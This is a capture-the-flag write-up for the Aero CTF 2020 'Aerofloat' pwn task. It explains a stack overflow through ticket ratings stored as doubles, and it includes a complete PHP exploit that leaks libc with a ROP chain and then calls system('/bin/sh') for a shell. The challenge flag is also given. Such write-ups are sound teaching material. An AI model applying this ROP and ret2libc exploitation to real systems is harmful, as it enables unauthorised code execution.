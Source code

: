 # Aerofloat - Aero CTF 2020 (pwn, 100p, 63 solved)
## Introduction

Aerofloat is a pwn task.

An archive containing a binary, a libc and its corresponding loader (`ld.so`).

It allows a user to input a list of rating for tickets by id.

## Reverse engineering

The binary is very small. It contains a menu interface in which a user can
insert a rating for a ticket. The binary sets an alarm that kills it 5 seconds
after it is started.

When a user rates a ticket, it is added in a structure on the stack. This
structure looks like this :

```c
struct ticket {
	char   id[8];
	double rating;
};
```

The ratings are added on a fixed-size array on the stack. There is no canary. It
is possible to overflow this array of size 8 and overwrite the return address.

## Exploitation

The array that contains tickets is located at offset `0xC8`. The structure
contains two fields of size 8. As a result, its size is `0x10`.

It is possible to overwrite the return address by creating `0x0C` == `12`
tickets. The return address will be overwritten by the next ticket's `rating`
field.

There is a small caveat: `rating` is a `double`. As a result, it is necessary to
encode the return address according to the IEEE 754 standard. PHP's `unpack`
function can handle this with `unpack("d", $n)`.

The easiest and most reliable way to exploit this binary is to use a ROP chain
that calls `puts` or `printf` on an address stored in the `.got.plt` section to
leak the libc and return to main. A second ROP chain can then be used to call
`system("/bin/sh")`.

**Flag**: `Aero{8c911e90f6ff8ecb6a333ebacfccd28b36d1f9b02386cc884b343f1f02da62e6}`

## Appendices

### pwn.php

```php
#!/usr/bin/php
<?php
require_once("Socket.php");

function menu(Tube $t)
{
	$t->expectLine("1. Set rating");
	$t->expectLine("2. View rating list");
	$t->expectLine("3. View porfile info");
	$t->expectLine("4. Exit");
	$t->expect("> ");
}

function add(Tube $t, $name, $rating)
{
	menu($t);
	$t->write("1\n");

	$t->expect("{?} Enter your ticket id: ");
	$t->write("$name");

	$t->expect("{?} Enter your rating: ");
	$t->write("$rating\n");

	return $t->readLine();
}

$t = new Socket("tasks.aeroctf.com", 33017);

$t->expect("{?} Enter name: ");
$t->write("[TFNS] XeR\n");

printf("[+] Overflow the stack\n");
for($i = 0; $i < 12; $i++)
	add($t, "$i\0", $i);



$chain = array(
	0x004015bb, 0x00404018, // pop rdi (puts)
	0x00401030, // puts
	0x00401192, // main
);

$chain = array_merge([0xCAFEBABE], $chain);
if(sizeof($chain) % 2)
	$chain[] = 0xdeadbeef;


for($i = 0; $i < sizeof($chain); $i += 2) {
	$str   = pack("Q", $chain[$i + 0]);
	$float = unpack("d", pack("Q", $chain[$i + 1]))[1];

	add($t, $str, $float);
}

menu($t);
$t->write("4\n");

$leak = $t->readLine();
$leak = substr(str_pad($leak, 8, "\x00"), 0, 8);
$libc = unpack("Q", $leak)[1] - 0x7FFFF7E82050 + 0x7ffff7e0e000;
printf("[+] libc: %X\n", $libc);


$t->expect("{?} Enter name: ");
$t->write("[TFNS] XeR\n");

printf("[+] Overflow the stack\n");
for($i = 0; $i < 12; $i++)
	add($t, "$i\0", $i);

$chain = array(
	0x004015bb, $libc + 0x183cee, // pop rdi ("/bin/sh")
	$libc + 0x00046ff0, // system
);

$chain = array_merge([0xCAFEBABE], $chain);
if(sizeof($chain) % 2)
	$chain[] = 0xdeadbeef;


for($i = 0; $i < sizeof($chain); $i += 2) {
	$str   = pack("Q", $chain[$i + 0]);
	$float = unpack("d", pack("Q", $chain[$i + 1]))[1];

	add($t, $str, $float);
}

menu($t);
$t->write("4\n");

printf("[+] Pipe\n");
$t->pipe();
```
